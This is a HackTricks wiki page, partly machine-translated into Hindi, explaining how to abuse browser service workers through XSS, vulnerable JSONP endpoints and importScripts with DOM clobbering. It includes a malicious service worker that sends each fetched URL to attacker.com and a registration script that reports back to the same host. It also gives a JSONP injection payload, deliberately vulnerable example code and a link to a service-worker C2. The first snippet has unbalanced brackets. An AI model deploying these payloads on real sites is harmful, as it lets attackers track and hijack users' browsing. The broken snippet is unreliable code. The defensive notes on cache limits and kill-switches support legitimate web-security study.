 # Abusing Service Workers



{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

एक **सर्विस वर्कर** एक स्क्रिप्ट है जो आपके ब्राउज़र द्वारा बैकग्राउंड में चलती है, किसी भी वेब पृष्ठ से अलग, ऐसी सुविधाओं को सक्षम करती है जिन्हें वेब पृष्ठ या उपयोगकर्ता इंटरैक्शन की आवश्यकता नहीं होती है, इस प्रकार **ऑफलाइन और बैकग्राउंड प्रोसेसिंग** क्षमताओं को बढ़ाती है। सर्विस वर्कर्स पर विस्तृत जानकारी [यहां](https://developers.google.com/web/fundamentals/primers/service-workers) मिल सकती है। एक कमजोर वेब डोमेन के भीतर सर्विस वर्कर्स का शोषण करके, हमलावर पीड़ित के सभी पृष्ठों के साथ इंटरैक्शन पर नियंत्रण प्राप्त कर सकते हैं।

### Checking for Existing Service Workers

मौजूदा सर्विस वर्कर्स को **डेवलपर टूल्स** के **एप्लिकेशन** टैब के **सर्विस वर्कर्स** सेक्शन में चेक किया जा सकता है। एक और तरीका है [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) पर जाकर अधिक विस्तृत दृश्य प्राप्त करना।

### Push Notifications

**पुश नोटिफिकेशन अनुमतियाँ** सीधे **सर्विस वर्कर** की सर्वर के साथ संवाद करने की क्षमता को प्रभावित करती हैं बिना सीधे उपयोगकर्ता इंटरैक्शन के। यदि अनुमतियाँ अस्वीकृत हैं, तो यह सर्विस वर्कर की निरंतर खतरे के रूप में संभावनाओं को सीमित करता है। इसके विपरीत, अनुमतियाँ देने से सुरक्षा जोखिम बढ़ जाते हैं क्योंकि यह संभावित शोषण के रिसेप्शन और निष्पादन को सक्षम करता है।

## Attack Creating a Service Worker

इस कमजोरी का शोषण करने के लिए आपको निम्नलिखित खोजने की आवश्यकता है:

* सर्वर पर **मनमाने JS** फ़ाइलों को **अपलोड** करने का एक तरीका और अपलोड की गई JS फ़ाइल के **सर्विस वर्कर को लोड करने के लिए एक XSS**
* एक **कमजोर JSONP अनुरोध** जहां आप **आउटपुट (मनमाने JS कोड के साथ)** को **हेरफेर** कर सकते हैं और एक **XSS** जो **पेलोड के साथ JSONP को लोड करेगा** जो **एक दुर्भावनापूर्ण सर्विस वर्कर** को **लोड करेगा**।

निम्नलिखित उदाहरण में मैं एक कोड प्रस्तुत करने जा रहा हूँ जो **एक नया सर्विस वर्कर रजिस्टर** करेगा जो `fetch` इवेंट को सुनेगा और **प्रत्येक फेच की गई URL को हमलावर के सर्वर पर भेजेगा** (यह वह कोड है जिसे आपको **सर्वर** पर **अपलोड** करने की आवश्यकता होगी या एक **कमजोर JSONP** प्रतिक्रिया के माध्यम से लोड करने की आवश्यकता होगी):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
और यह वह कोड है जो **कार्यकर्ता को पंजीकृत** करेगा (यह कोड आपको **XSS** का दुरुपयोग करते हुए निष्पादित करने में सक्षम होना चाहिए)। इस मामले में एक **GET** अनुरोध **हमलावरों** के सर्वर पर भेजा जाएगा **सूचित** करने के लिए कि सेवा कार्यकर्ता का **पंजीकरण** सफल था या नहीं:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
यदि आप एक कमजोर JSONP एंडपॉइंट का दुरुपयोग कर रहे हैं, तो आपको मान को `var sw` के अंदर रखना चाहिए। उदाहरण के लिए:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
There is a **C2** dedicated to the **exploitation of Service Workers** called [**Shadow Workers**](https://shadow-workers.github.io) that will be very useful to abuse these vulnerabilities.

The **24-hour cache directive** limits the life of a malicious or compromised **service worker (SW)** to at most 24 hours after an XSS vulnerability fix, assuming online client status. To minimize vulnerability, site operators can lower the SW script's Time-To-Live (TTL). Developers are also advised to create a [**service worker kill-switch**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) for rapid deactivation.

## Abusing `importScripts` in a SW via DOM Clobbering

The function **`importScripts`** called from a Service Worker can **import a script from a different domain**. If this function is called using a **parameter that an attacker could** modify he would be able to **import a JS script from his domain** and get XSS.

**This even bypasses CSP protections.**

**Example vulnerable code:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### DOM क्लॉबरिंग के साथ

DOM क्लॉबरिंग क्या है, इसके बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

यदि URL/डोमेन जहां SW **`importScripts`** को कॉल करने के लिए उपयोग कर रहा है, **एक HTML तत्व के अंदर** है, तो इसे **DOM क्लॉबरिंग के माध्यम से संशोधित करना संभव है** ताकि SW **आपके अपने डोमेन से एक स्क्रिप्ट लोड कर सके**।

इसका उदाहरण देखने के लिए संदर्भ लिंक देखें।

## संदर्भ

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

